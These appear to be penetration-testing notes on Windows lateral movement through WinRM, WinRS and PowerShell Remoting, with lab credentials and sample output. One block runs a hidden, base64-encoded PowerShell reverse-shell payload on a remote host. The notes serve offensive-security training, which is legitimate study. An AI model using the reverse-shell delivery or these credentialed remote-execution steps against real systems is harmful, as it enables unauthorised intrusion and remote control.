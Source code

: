 ### Windows Remote Management (WinRM)

**WinRM Architecture:**
- **Protocol:** Microsoft implementation of WS-Management
- **Communication:** XML messages over HTTP/HTTPS
- **Ports:** TCP 5985 (HTTP), TCP 5986 (HTTPS)
- **Authentication:** Domain users in Administrators or Remote Management Users groups

### WinRS (Windows Remote Shell)

**Basic WinRS Command Execution:**
```cmd
# Execute commands on remote host
winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
```

**Sample Output:**
```
FILES04
corp\jen
```

**WinRS Reverse Shell Delivery:**
```cmd
# Execute base64-encoded payload via WinRS
winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD..."
```

### PowerShell Remoting (WinRM)

**Establish Remote PowerShell Session:**
```powershell
# Create credential object
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString

# Create remote session
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```

**Session Output:**
```
 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

**Interactive Session Management:**
```powershell
# Enter interactive session
Enter-PSSession 1

# Commands execute on remote system
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
